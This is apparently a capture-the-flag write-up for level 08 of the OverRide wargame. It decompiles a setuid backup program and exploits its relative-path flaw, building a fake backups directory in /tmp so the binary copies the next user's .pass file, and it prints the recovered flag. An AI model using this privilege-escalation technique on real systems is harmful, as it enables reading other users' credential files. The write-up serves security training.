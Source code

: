 # LEVEL 08 - REVERSE 4 - RELATIVE PATH

We have a binary named level08 at /home/users/level08/

It is owned by `level09`, has a `setuid bit` and hax `NX` disabled

This program is composed of 2 functions: `main` and `log_wrapper`

Let's start with the `main` munction, the program first define two `FILE` streams, an `int` to store a file descriptor, a buffer of 1 `char` and a buffer of 104 `char`

```c
int main(int argc, const char **argv)
{
	FILE *logFile;
	FILE *fileTobackup;
	int backupFd;
	char buf;
	char dest[104];
```

Then the program checks for arguments and print a message in case of an error which tells us the program is expecting a filename as first and only argument

```c
if (argc != 2)
	printf("Usage: %s filename\n", *argv);
```

Then it tries to open a log file located at `./backups/.log` in `write` mode

If it failed the program prints an error message and exits or else it calls the `log_wrapper` function with a debug message and the first argument as parameters

```c
	logFile = fopen("./backups/.log", "w");
	if (!logFile)
	{
		printf("ERROR: Failed to open %s\n", "./backups/.log");
		exit(1);
	}

	log_wrapper(logFile, "Starting back up: ", argv[1]);
```

Next, the program tries to open the file to backup which is the filename passed as argument, prints an error and exits if the file could not be opened.

If no error was encountered the program proceeds to concatenate the filename with "./backups/" and tries to open this new file.

```c
	fileTobackup = fopen(argv[1], "r");
	if (!fileTobackup)
	{
		printf("ERROR: Failed to open %s\n", argv[1]);
		exit(1);
	}

	strcpy(dest, "./backups/");
	strncat(dest, argv[1], 99 - strlen(dest));
	backupFd = open(dest, O_WRONLY | O_CREAT | O_EXCL, 00660);
	if (backupFd < 0)
	{
		printf("ERROR: Failed to open %s%s\n", "./backups/", argv[1]);
		exit(1);
	}
```

Finally, the file is copied character by character using the `buf` defined at the top, the program calls the `log_wrapper` function and closes all remaining opened fd's before returning

```c
	buf = -1;
	while (1)
	{
		buf = fgetc(fileTobackups);
		if (buf == -1)
			break;
		write(backupFd, &buf, 1uLL);
	}

	log_wrapper(logFile, "Finished back up ", argv[1]);

	fclose(fileTobackup);
	close(backupFd);
	return 0;
}
```

Next, let's break down the `log_wrapper` function

The function starts by defining a buffer of 264 char and copies the debug message into it

```c
void log_wrapper(FILE *logFile, const char *msg, const char *filename)
{
	char dest[264];

	strcpy(dest, msg);
```

Then it uses `snprintf` to append the filename to the `dest` buffer and replaces the "\n" with a "\0" 

```c
	snprintf(&dest[strlen(dest)], 254 - strlen(dest), filename);
	dest[strcspn(dest, "\n")] = 0;
```

Finally it finishes by writing the `dest` buffer into the log file using `fprintf` before returning

```c
	fprintf(logFile, "LOG: %s\n", dest);
	return;
}
```

This program allow to backup files, it takes a single filename as arguments and copies it to a new file located at `./backups/`

Let's execute it with the `.pass` file located at `/home/users/level09/level09` which contains the flag we need

```
level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

Because the directories `/home/users/level09/` are not present at the `./backups/` location, the program can't open the backup file

Let's try to create the missing directories

```
level08@OverRide:~$ cd ./backups/
level08@OverRide:~/backups$ mkdir home
mkdir: cannot create directory `home': Permission denied
```

We have not the required permissions to create the missing directories

The flaw in this binary resides into the usage of relative path when opening the backup file because the relative path is found using the actual pwd of the user executing the binary

```c
	strcpy(dest, "./backups/");
	strncat(dest, argv[1], 99 - strlen(dest));
	backupFd = open(dest, O_WRONLY | O_CREAT | O_EXCL, 00660);
```

This means we can go to `/tmp/` and create `backups/` directory which will be used by the binary instead of the `/home/users/level08/backups/` directory

We also need to create a `.log` file inside the `backups/` directory

```
level08@OverRide:~$ cd /tmp
level08@OverRide:/tmp$ mkdir backups
level08@OverRide:/tmp$ mkdir backups/home
level08@OverRide:/tmp$ mkdir backups/home/users
level08@OverRide:/tmp$ mkdir backups/home/users/level09
level08@OverRide:/tmp$ touch backups/.log
```

Now let's execute the binary while being at `/tmp`

```
level08@OverRide:/tmp$ /home/users/level08/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

Here is the flag
```
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
